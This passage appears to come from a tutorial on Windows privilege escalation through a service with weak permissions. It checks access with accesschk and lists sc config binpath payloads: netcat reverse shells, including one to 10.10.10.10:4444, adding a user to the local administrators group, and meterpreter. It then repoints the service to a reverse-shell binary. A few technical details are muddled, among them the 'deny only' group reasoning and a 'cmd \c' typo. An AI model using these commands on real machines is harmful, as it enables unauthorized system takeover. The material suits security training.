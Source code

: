 Noticed how the `BUILTIN\Administrators` groups have all the service permissions with `SERVICE_ALL_ACCESS`. This means that we have full control over the service since the default Windows low-privileged (medium-integrity level) user is in this group by default:

```powershell
C:\Users\user>whoami
desktop-bn\user

C:\Users\user>whoami /groups | findstr /i "builtin\administrators"
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Group used for deny only
```

We can enumerate the service access rights from medium-integrity level command prompt or PowerShell console with accesschk:

```powershell
PS C:\Users\user> C:\Tools\SysInternalsSuite\accesschk.exe /accepteula -uwcqv user "DACL VulnService"

Accesschk v6.14 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

RW DACL VulnService
        SERVICE_ALL_ACCESS
 ```

As we can see from the output above, we have the **SERVICE_ALL_ACCESS** access right therefore we can modify the **BINARY_PATH_NAME** value that is used by the service and to do that we can use service control manager to modify the service, this are a few things that we could try:

```powershell
sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"

sc config <Service_Name> binpath= "net localgroup administrators username /add"

sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"

sc config <Service_Name> binpath= "C:\meter443.exe"
```

We'll simply do the following:

```powershell
C:\Users\user>sc config "DACL VulnService" binpath= "\"C:\Tools\reverse.exe\""
[SC] ChangeServiceConfig SUCCESS

C:\Users\user>sc qc "DACL VulnService"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: DACL VulnService
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Tools\reverse.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : DACL VulnService
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```
